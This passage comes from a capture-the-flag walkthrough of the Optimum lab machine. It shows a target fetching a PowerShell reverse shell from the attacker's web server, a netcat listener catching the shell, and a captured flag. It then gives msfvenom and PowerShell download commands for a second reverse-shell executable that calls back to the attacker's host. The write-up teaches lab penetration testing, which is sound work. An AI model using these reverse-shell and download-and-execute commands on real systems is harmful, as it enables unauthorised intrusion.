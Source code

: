 That triggers Optimum to reach out and download `rev.ps1` (interestingly again four times), which shows up at the web server:

```
oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
```

When the file is returned, it is executed by `IEX`, short for `Invoke-Expression`, and the shell connects back to my listening `nc` (for some reason on this shell the prompt only shows up after the first command):

```
oxdf@parrot$ sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

There’s a small typo in the flag name, but I can grab it:

```
PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
d0c39409d7b994a9a1389ebf38ef5f73
```

- but as we are in PowerShell, which is a bit uncomfortable, we need to switch to cmd shell.
- for this we can make a msfvenom payload and download it on target and execute it.
- To create exe payload for rev shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.7 LPORT=9001 -f exe > shell.exe
```

- run following command on target to download the file using PowerShell.

```
iwr -Uri http://10.10.16.7/shell.exe -OutFile C:\Users\kostas\Desktop\shell.exe
```

- now to execute it do: (remember to start a new listener)

```
.\shell.exe
```

- got a new cmd shell as user kostas.
- here we cloud have also used metasploit's `windows/http/rejetto_hfs_exec`.

## Post Exploitation

### Enumeration - winPEAS
